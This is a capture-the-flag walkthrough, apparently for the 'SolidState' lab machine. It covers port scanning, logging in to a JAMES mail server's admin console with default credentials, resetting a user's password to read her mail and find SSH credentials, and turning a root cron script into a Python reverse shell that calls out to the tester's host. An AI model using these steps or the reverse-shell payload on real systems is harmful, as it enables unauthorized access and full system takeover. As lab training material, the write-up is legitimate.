

# SolidState

# Scanning

```bash
furious 10.10.10.53
nmap -sC -sV -p 25,22,4555,110,119,80 -Pn -n 10.10.10.51 -oN targeted
```



# 4555
```bash
telnet 10.10.10.51 4555

Trying 10.10.10.51...
Connected to 10.10.10.51.
Escape character is '^]'.
JAMES Remote Administration Tool 2.3.2
Please enter your login and password
Login id:
root
Password:
root
Welcome root. HELP for a list of commands
HELP
Currently implemented commands:
help                                    display this help
listusers                               display existing accounts
countusers                              display the number of existing accounts
adduser [username] [password]           add a new user
verify [username]                       verify if specified user exist
deluser [username]                      delete existing user
setpassword [username] [password]       sets a user's password
setalias [user] [alias]                 locally forwards all email for 'user' to 'alias'
showalias [username]                    shows a user's current email alias
unsetalias [user]                       unsets an alias for 'user'
setforwarding [username] [emailaddress] forwards a user's email to another email address
showforwarding [username]               shows a user's current email forwarding
unsetforwarding [username]              removes a forward
user [repositoryname]                   change to another user repository
shutdown                                kills the current JVM (convenient when James is run as a daemon)
quit                                    close connection
listusers
Existing accounts 6
user: james
user: ../../../../../../../../etc/bash_completion.d
user: thomas
user: john
user: mindy
user: mailadmin
setpassword mindy mindy
Password for mindy reset
Connection closed by foreign host.
```


# 110
```
telnet 10.10.10.51 110              ░▒▓ 1 ✘  4m 1s   03:55:51 PM  ▓▒░
Trying 10.10.10.51...
Connected to 10.10.10.51.
Escape character is '^]'.
+OK solidstate POP3 server (JAMES POP3 Server 2.3.2) ready 
user mindy 
+OK
pass mindy
+OK Welcome mindy
stat
+OK 2 1945
list
+OK 2 1945
1 1109
2 836
.
retr 1
+OK Message follows
Return-Path: <mailadmin@localhost>
Message-ID: <5420213.0.1503422039826.JavaMail.root@solidstate>
MIME-Version: 1.0
Content-Type: text/plain; charset=us-ascii
Content-Transfer-Encoding: 7bit
Delivered-To: mindy@localhost
Received: from 192.168.11.142 ([192.168.11.142])
          by solidstate (JAMES SMTP Server 2.3.2) with SMTP ID 798
          for <mindy@localhost>;
          Tue, 22 Aug 2017 13:13:42 -0400 (EDT)
Date: Tue, 22 Aug 2017 13:13:42 -0400 (EDT)
From: mailadmin@localhost
Subject: Welcome

Dear Mindy,
Welcome to Solid State Security Cyber team! We are delighted you are joining us as a junior defense analyst. Your role is critical in fulfilling the mission of our orginzation. The enclosed information is designed to serve as an introduction to Cyber Security and provide resources that will help you make a smooth transition into your new role. The Cyber team is here to support your transition so, please know that you can call on any of us to assist you.

We are looking forward to you joining our team and your success at Solid State Security. 

Respectfully,
James
.
retr 2
+OK Message follows
Return-Path: <mailadmin@localhost>
Message-ID: <16744123.2.1503422270399.JavaMail.root@solidstate>
MIME-Version: 1.0
Content-Type: text/plain; charset=us-ascii
Content-Transfer-Encoding: 7bit
Delivered-To: mindy@localhost
Received: from 192.168.11.142 ([192.168.11.142])
          by solidstate (JAMES SMTP Server 2.3.2) with SMTP ID 581
          for <mindy@localhost>;
          Tue, 22 Aug 2017 13:17:28 -0400 (EDT)
Date: Tue, 22 Aug 2017 13:17:28 -0400 (EDT)
From: mailadmin@localhost
Subject: Your Access

Dear Mindy,


Here are your ssh credentials to access the system. Remember to reset your password after your first login. 
Your access is restricted at the moment, feel free to ask your supervisor to add any commands you need to your path. 

username: mindy
pass: P@55W0rd1!2@

Respectfully,
James

.
Connection closed by foreign host.
```

username: mindy
pass: P@55W0rd1!2@


# ssh 22

ssh mindy@10.10.10.51

cat /home/mindy/user.txt

# procmon.sh
```bash
< /usr/sbin/CRON -f
< /bin/sh -c python /opt/tmp.py
< python /opt/tmp.py
```

we edit tmp.py to use it as a reverse shell

/opt/tmp.py
```python
import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.10.14.14",8888));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);
```

```bash
nc -lvp 8888
cat /root/root.txt
```
